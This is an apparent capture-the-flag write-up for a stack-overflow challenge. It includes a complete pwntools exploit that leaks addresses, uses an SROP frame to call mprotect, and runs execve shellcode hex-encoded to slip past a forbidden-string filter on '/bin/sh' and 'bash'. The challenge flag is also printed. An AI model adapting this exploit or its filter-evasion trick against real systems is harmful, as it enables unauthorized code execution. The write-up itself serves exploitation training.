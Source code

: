 # Database Intrusion - Writeup

---

## Exploit Demo

This demo shows the full exploitation flow:

![Alt text](gif/DatabaseIntrusion.gif)

---

## Binary Inspection

We begin by examining the binary format and security properties.

### Step 1: Binary Format

```bash
$ file main
```

The binary is a 64-bit dynamically linked PIE executable.

![Alt text](img/1.png)

---

### Step 2: Security Properties

```bash
$ pwn checksec main
```

Security summary:

- **Full RELRO**
- **No Stack Canary**
- **NX enabled**
- **PIE enabled**

![Alt text](img/2.png)

---

## Static Analysis (IDA Pro)

```c
int vuln() {
  _BYTE buf[64];
  printf(">> Secure channel established at %p:%p.\n", buf, vuln);
  read(0, buf, 0x190);
  check_forbidden(buf);
  return puts("Hint: You don't need ga\ndgets for rax!");
}
```

![Alt text](img/3.png)

- `buf` and `vuln` addresses are leaked.
- `check_forbidden()` runs _after_ the overflow, so shellcode must not contain blocked substrings.
- Buffer is on the **stack**, so we need to **mprotect** it before execution.

---

## Vulnerability Summary

The function `vuln()` contains a **buffer overflow** on a 64-byte buffer due to an unchecked `read()` call that reads **0x190 bytes**:

```c
char buf[64];
read(0, buf, 0x190);  // Vulnerable
```

![Alt text](img/4.png)

Furthermore, a `check_forbidden()` function filters out strings such as `/bin/sh`, `ls`, `bash`, and more — preventing traditional `system("/bin/sh")` shellcode or command injection.

---

## Exploit Strategy

Due to the NX bit and forbidden string filter, we use **Sigreturn-Oriented Programming (SROP)** to:

1. Call `mprotect()` to mark the stack **RWX**.
2. Inject and execute a **custom shellcode** that avoids forbidden strings.

### Overview

1. **Leak PIE base** from `printf("%p:%p", buf, vuln)` in `vuln()`.
2. **Page-align the stack buffer** to use in `mprotect()`.
3. **Craft a SROP frame** that sets up a `mprotect` syscall to make stack executable.
4. **Inject shellcode** directly into the buffer.
5. **Jump to shellcode** after stack permissions are changed.

---

## Exploit Script

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *
context.arch = 'amd64'
context.os = 'linux'
# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or './main')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

#--------------------------------[ STEP 1 : PIE_BASE ]--------------------------------

io.recvuntil(b'>> Secure channel established at ')
leak_vals = io.recvline().split(b':')
log.success	(f"leak_vals : {leak_vals}")
buf_addr = int(leak_vals[0],16)
vuln_addr = int(leak_vals[1].strip()[:-1],16)
log.success(f"buf @ : {hex(buf_addr)} ,, vuln @ : {hex(vuln_addr)}")
pie_base = vuln_addr - exe.sym['vuln']
exe.address = pie_base
log.success(f"exe.address @ {hex(exe.address)}")

#------------------[ STEP 2 : MAKE STACk RWX WITH MPROTECT SYSCALL ]------------------

# Setup ROP and gadgets
rop = ROP(exe)
syscall_gad = rop.find_gadget(['syscall'])[0]
ret_gad = rop.find_gadget(['ret'])[0]

# Page align the buffer address for mprotect
page_size = 0x1000
page_aligned_addr = buf_addr & ~(page_size - 1)

# Build SigreturnFrame for mprotect syscall
frame = SigreturnFrame()
frame.rax = 10            # syscall number for mprotect
frame.rdi = page_aligned_addr  # page-aligned address
frame.rsi = page_size     # length (one page)
frame.rdx = 7             # PROT_READ | PROT_WRITE | PROT_EXEC
frame.rip = syscall_gad   # syscall; ret gadget address
frame.rsp = buf_addr  # new stack pointer after sigreturn

#-------------------------------[ STEP 3 : SHELLCODE ]-------------------------------

shellcode = asm('''
    xor rsi, rsi
    push rsi
    mov rdi, 0x68732f2f6e69622f
    push rdi
    mov rdi, rsp
    xor rdx, rdx
    mov al, 0x3b
    syscall
''')

#--------------------------------[ STEP 4 : PAYLOAD ]--------------------------------

payload=p64(buf_addr+8)
payload+= shellcode
payload+= b'\x90' * (72 - len(payload) )
payload+= p64(syscall_gad)
payload+=bytes(frame)

io.recvuntil(b'>> Root key required to proceed:\n')
io.sendline(payload)



io.interactive()



```

---

## Final Notes

- The SROP frame allows us to _bypass the NX bit_.
- The injected shellcode is carefully crafted to avoid any substrings checked by `check_forbidden()`.
- We pivot back into the shellcode via `rsp` in the frame after `mprotect()` succeeds.

---

## Result

After successful execution, a shell is spawned **without using any forbidden string**, granting control of the target system.

---

## Flag

```
RedPointer{X!r7v9-Kaleido.phs}
```
